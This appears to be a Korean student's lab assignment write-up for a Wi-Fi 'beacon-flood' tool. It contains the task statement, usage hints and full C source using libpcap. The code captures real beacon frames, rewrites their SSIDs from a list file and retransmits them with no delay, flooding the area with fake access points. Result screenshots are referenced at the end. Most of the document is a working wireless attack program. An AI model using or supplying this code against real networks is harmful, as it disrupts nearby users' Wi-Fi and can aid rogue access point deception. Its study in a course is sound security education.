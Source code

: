 ### 과제

Beacon Flooding Attack 프로그램을 제작하라.

### 실행

`syntax : beacon-flood <interface> <ssid-list-file>
sample : beacon-flood mon0 ssid-list.txt`

### 상세

- [Beacon Flooding Attack](https://gilgil.gitlab.io/2020/09/07/2.html) 예제를 빌드하고 실행해 본다(예전 스마트폰에서는 SSID List가 보이지만 요즘 스마트폰에서는 보이지 않는 현상이 있다).
- libtins를 사용하지 않고 직접 Beacon frame(Radiotap Header + IEEE 802.11 Beacon frame + IEEE 802.11 Wireless Management)을 만들어 하여 전송하는 프로그램을 제작하는 것을 추천.
- Beacon frame을 직접 만들기 어려울 경우 기존의 실제 Beacon frame을 pcap으로 잡아서 거기에 SSID 값만 바꾸어서 전송해 보도록 한다.
- ssid-list.txt 에 포함된 SSID는 일단 영어로 작성하고 다음에 한글로 테스트해 본다. 그리고 SSID 갯수를 하나만 설정하여 제대로 작동하는지 확인하고, 확인이 된 이후에는 10개까지 넣어서 작동하는지 확인한다.
- 기타 다양한 beacon flooding code를 참조한다.
    
    https://kalilinuxtutorials.com/mdk3/
    
    https://gitlab.com/gilgil/g/-/blob/master/src/net/process/gbeaconflood.cpp
    

# 전체 코드

```c
#include <pcap.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define ESSID_MAX_LEN 100
#define FIXED_PARAMETERS_LEN 12

struct ieee80211_radiotap_header {
    u_int8_t it_version;
    u_int8_t it_pad;
    u_int16_t it_len;
    u_int32_t it_present;
} __attribute__((__packed__));

struct BEACON_FRAME {
    u_int8_t frame_type[2];
    u_int16_t duration_id;
    u_int8_t destination_mac[6];
    u_int8_t source_mac[6];
    u_int8_t bssid[6];
    u_int16_t sequence_ctr;
} __attribute__((__packed__));

typedef struct {
    char ssid[ESSID_MAX_LEN];
} SSID;

SSID ssid_list[256];
int ssid_count = 0;
char* dev;

void usage() {
    printf("syntax: beacon-flood <interface> <ssid-list-file>\n");
    printf("sample: beacon-flood mon0 ssid-list.txt\n");
    exit(1);
}

void load_ssid_list(const char* filename) {
    FILE* file = fopen(filename, "r");
    if (!file) {
        perror("Failed to open ssid-list file");
        exit(1);
    }

    while (fgets(ssid_list[ssid_count].ssid, sizeof(ssid_list[ssid_count].ssid), file)) {
        ssid_list[ssid_count].ssid[strcspn(ssid_list[ssid_count].ssid, "\n")] = 0; // Remove newline
        ssid_count++;
        if (ssid_count >= 256) {
            fprintf(stderr, "SSID list exceeds maximum capacity (256).\n");
            break;
        }
    }
    fclose(file);

    if (ssid_count == 0) {
        fprintf(stderr, "SSID list is empty.\n");
        exit(1);
    }
}

void capture_and_send_beacon_frames(pcap_t* handle) {
    struct pcap_pkthdr* header;
    const u_char* original_packet;
    int res;

    while ((res = pcap_next_ex(handle, &header, &original_packet)) >= 0) {
        if (res == 0) continue;

        // Copy the original packet to modify
        u_char packet[header->caplen];
        memcpy(packet, original_packet, header->caplen);

        // Parse Radiotap Header and Beacon Frame
        struct ieee80211_radiotap_header* radiotap = (struct ieee80211_radiotap_header*)packet;
        struct BEACON_FRAME* beacon = (struct BEACON_FRAME*)(packet + radiotap->it_len);

        // Check if it's a Beacon Frame
        if (beacon->frame_type[0] != 0x80) // Not a Beacon Frame
            continue;

        // Locate the SSID tag
        int idx = radiotap->it_len + sizeof(struct BEACON_FRAME) + FIXED_PARAMETERS_LEN; // Skip Fixed Parameters
        while ((unsigned int)idx < header->caplen) {
            if (packet[idx] == 0x00) { // Tag Number: SSID
                int original_ssid_len = packet[idx + 1]; // Original SSID Length
                for (int i = 0; i < ssid_count; i++) {
                    int new_ssid_len = strlen(ssid_list[i].ssid);

                    // Calculate new packet length
                    int new_packet_len = header->caplen - original_ssid_len + new_ssid_len;

                    // Allocate new packet
                    u_char* new_packet = (u_char*)malloc(new_packet_len);
                    if (!new_packet) {
                        fprintf(stderr, "Memory allocation failed.\n");
                        exit(1);
                    }

                    // Copy data before SSID
                    int ssid_offset = idx + 2;
                    memcpy(new_packet, packet, ssid_offset);

                    // Insert new SSID
                    memcpy(new_packet + ssid_offset, ssid_list[i].ssid, new_ssid_len);

                    // Copy data after SSID
                    memcpy(new_packet + ssid_offset + new_ssid_len, packet + ssid_offset + original_ssid_len, header->caplen - ssid_offset - original_ssid_len);

                    // Update SSID length
                    new_packet[idx + 1] = new_ssid_len;

                    // Send the modified packet
                    if (pcap_sendpacket(handle, new_packet, new_packet_len) != 0) {
                        fprintf(stderr, "Error sending packet: %s\n", pcap_geterr(handle));
                    } else {
                        printf("Sent beacon with SSID: %s\n", ssid_list[i].ssid);
                    }

                    free(new_packet);

//                    usleep(100000); // 100ms delay
                }
                break;
            }
            idx += packet[idx + 1] + 2; // Move to the next tag
        }
    }

    if (res == PCAP_ERROR || res == PCAP_ERROR_BREAK) {
        fprintf(stderr, "Error reading packet: %s\n", pcap_geterr(handle));
    }
}

int main(int argc, char* argv[]) {
    if (argc != 3) {
        usage();
    }

    dev = argv[1];
    const char* ssid_file = argv[2];

    // Load SSID list
    load_ssid_list(ssid_file);

    // Open live pcap handle for capturing and sending packets
    char errbuf[PCAP_ERRBUF_SIZE];
    pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf);
    if (!handle) {
        fprintf(stderr, "pcap_open_live failed: %s\n", errbuf);
        return 1;
    }

    // Capture and modify beacon frames
    capture_and_send_beacon_frames(handle);

    pcap_close(handle);
    return 0;
}
	
```

# 실행 결과

### 영문 텍스트 (10개)

ganzi1  ~ ganzi10qq

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/c3677699-221e-4815-8d4e-4b443d63f94c/b6826829-c747-45b9-b3ed-59266d548e0b/image.png)

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/c3677699-221e-4815-8d4e-4b443d63f94c/74722d6d-bcfc-46e4-a5c0-08eb9de30cf8/image.png)

### 한글 테스트

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/c3677699-221e-4815-8d4e-4b443d63f94c/b06fb0e5-2979-4a73-aefc-12a1d6cabada/image.png)
